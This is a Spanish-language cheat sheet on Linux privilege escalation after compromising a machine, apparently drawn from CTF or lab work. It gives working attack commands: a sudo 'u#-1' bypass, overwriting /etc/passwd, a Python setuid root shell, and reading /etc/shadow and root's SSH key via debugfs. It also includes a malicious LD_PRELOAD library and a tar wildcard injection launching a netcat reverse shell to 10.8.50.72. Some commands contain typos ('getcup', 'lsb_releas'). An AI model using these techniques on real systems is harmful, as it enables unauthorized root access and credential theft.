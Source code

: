 # Escalada de privilegios en Linux

Se definen en esta página las principales técnicas de escalada de privilegios en máquinas Linux.

Se supone siempre que acabamos de comprometer una máquina y tenemos acceso a ella con un usuario de bajos privilegios.

## Enumeración de la máquina comprometida.

Hay una serie de comandos que siempre debemos lanzar al comprometer una máquina.

Comenzamos.

### whoami, id, ifconfig, ip a

* El comando **whoami** nos dice que usuario somos.
* El comando **id**  nos dice que usuario somos, pero ademas nos muestra los grupos en los que estamos.
* El comando **ifconfig** nos dice la ip que tenemos. Si no coincide con la que hemos trabajado es que estamos en un contenedor.
* El comando **ip a** hace lo mismo que **ifconfig** cuando este no funciona. Depende de la versión de linux.



```bash
id # Ver usuario y gupos
whoami # Ver usuario
ip a # Ver direcciones IP de la máquina
ifconfig # Ver direcciones IOP de forma antigua
uname -a # Ver versión de Lunux
lsb_releas -a # Ver datos de la distribución de Linux
```


![](/.gitbook/assets/escal01.png)

### Datos del sistema. uname -a, cat /etc/lsb-release

* El comando **uname -a** nos devuelve la versión de Linux que se ejecuta. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 
* El comando **cat /etc/lsb-release** nos devuelve la información exacta de la distribución. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 

![](/.gitbook/assets/escal02.png)

## Técnicas rutinarias

### Buscar ficheros **config** o **backup**

Sobre todo si estamos en un directorio de aplicación php, podemos buscar por el patrón config. Es posible obtener donde se configura la aplicación con el usuario de base de datos.

```bash
# Desde el directorio actual
find . -name *config*
# todo el sistema
find / -name *config*
```

También se puede hacer lo mismo con la palabra buckup, buscando posibles zips.

## Revisar los permisos sudo

Si tenemos la contraseña del usuario, podemos ver si tiene permisos sudo con **sudo -l**. Podemos ver si nos podemos aprovechar de algún permiso sudo para escalar privilegios.

![](/.gitbook/assets/kio33.png)

## Restricciones de sudo

Si tenemos una restricción en los permisos sudo, como **!root** podemos saltarnosla en versiones antiguas de sudo con **u#-1**..

```console
sudo u#-1 sqlite3 /dev/null '.shell /bin/bash'
```



## Buscar ficheros con permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null
```

## Permisos SUID

```bash
find / -perm -4000 2>/dev/null 
```

## Permisos de escritura

```bash
find / -writable 2>/dev/null
```

En caso de poder escribir en **/etc/passwd** podemos cambiar la password de root.
```bash
# generamos pssword
openssl passwd pepe
```
![](/.gitbook/assets/enumeracion-inicial-1.png)

Ahora editamos el fichero/etc/passwd y le ponemos la password.
![](/.gitbook/assets/enumeracion-inicial-2.png)

También podemos quitar la x si está desactivado la autenticación en /etc/shadow
![](/.gitbook/assets/enumeracion-inicial-3.png)
Entonces quitamos la x en /etc/passwd y podemos cambiar de usuario sin contraseña.
![](/.gitbook/assets/enumeracion-inicial-4.png)

### Ejecutables especiales


#### PKEXEC

Averiguar versión y buscar si es vulnerable.
![](/.gitbook/assets/enumeracion-inicial.png)
## Permisos de escritura

```bash
find \-writable 2>/dev/null | grep "etc"
```
## Capabilities

```bash
getcup -r / 2>/dev/null
```


## Ver procesos

```bash
ps -faux
```


### Capabilities

```bash
getcup -r / 2>/dev/null

```

#### Python cap_setuid

En caso de encontrar una capability **cap_setuid** esta permite cambiar de usuario. En el caso de python es muy sencillo:

```bash
python
import os
os.setuid(0)
os.system("bash")

```

## Grupos del usuario
Se muestran grupos que permiten la escalada de privilegios.

### disk
Si un usuario está en este grupo puede montar cualquier unidad de disco que tenga como usuario root.
```bash
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```


## Otros

Trazas icmp

```bash
sudo tcpdump -i tun0 icmp -n
```

## Técnicas especificas.

### Sudo de ficheros binarios con la opción 

Si tenemos como opción en **sudo** la ejecución de un fichero binario y ademas tenemos la opción de enviar parametros en PRELOAD, ver la imagen:

![](/.gitbook/assets/sudo-preload.png)

Entonces podemos crearnos un módulo de preload malicioso. Creamos el fichero shell.c con el siguiente código c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

Luego lo compilamos como **shell.so**:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
``` 

Y ya podemos ejecutar el binario como sudo cargando el módulo:

```bash
sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
``` 

### Explotacion de comando **tar**:

```bash
server-management@vulnnet:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint=1"
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```